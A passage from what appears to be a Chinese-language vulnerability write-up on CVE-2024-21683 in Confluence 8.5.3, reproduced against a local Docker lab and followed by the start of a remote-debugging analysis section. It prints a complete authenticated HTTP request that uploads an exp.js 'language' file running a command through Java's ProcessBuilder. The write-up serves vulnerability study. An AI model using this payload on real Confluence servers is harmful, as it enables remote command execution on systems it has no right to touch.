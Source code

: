 注意：也可以是执行其他命令  
  
也可以直接使用burp发送请求，但要注意带上管理员Cookie  
```
POST /admin/plugins/newcode/addlanguage.action HTTP/1.1
Host: 192.168.199.202:8090
Content-Length: 530
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.199.202:8090
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9ZTAmucIpsJkBqSw
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.199.202:8090/admin/plugins/newcode/configure.action
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=E798362E7A06CF1087CC58A078F993A4
Connection: close

------WebKitFormBoundary9ZTAmucIpsJkBqSw
Content-Disposition: form-data; name="atl_token"

02b26de790c0e61a3e68012c4b3c4a7ab335556f
------WebKitFormBoundary9ZTAmucIpsJkBqSw
Content-Disposition: form-data; name="languageFile"; filename="exp.js"
Content-Type: text/javascript

new java.lang.ProcessBuilder["(java.lang.String[])"](["touch", "/tmp/CVE-2024-21683"]).start(); 
------WebKitFormBoundary9ZTAmucIpsJkBqSw
Content-Disposition: form-data; name="newLanguageName"

exp
------WebKitFormBoundary9ZTAmucIpsJkBqSw--

```  
  
3、登录容器查看命令执行结果，成功创建了文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjLogZ4wQRv6uMNOOqlJ6GP906ekfjgkQicb4d0JRPyDWggGlv3oMRuicrfR836iaiblG8yWGcQ9EycNQ/640?wx_fmt=png&from=appmsg "")  
## 0x06 漏洞分析  
  
我们通过远程调试，具体看一下。  
  
首先在docker环境中导出远程调试使用的环境。  
  
也可以直接下载同版本的源码：  
  
https://product-downloads.atlassian.com/software/confluence/downloads/atlassian-confluence-8.5.3.zip  
  
java环境的话也要保证是同版本的（容器是Linux的，我在windows上调试）  
```
docker cp 0a55c16e8262:/opt/atlassian/confluence /root/confluence
docker cp 0a55c16e8262:/opt/java/openjdk /root/openjdk

```  
  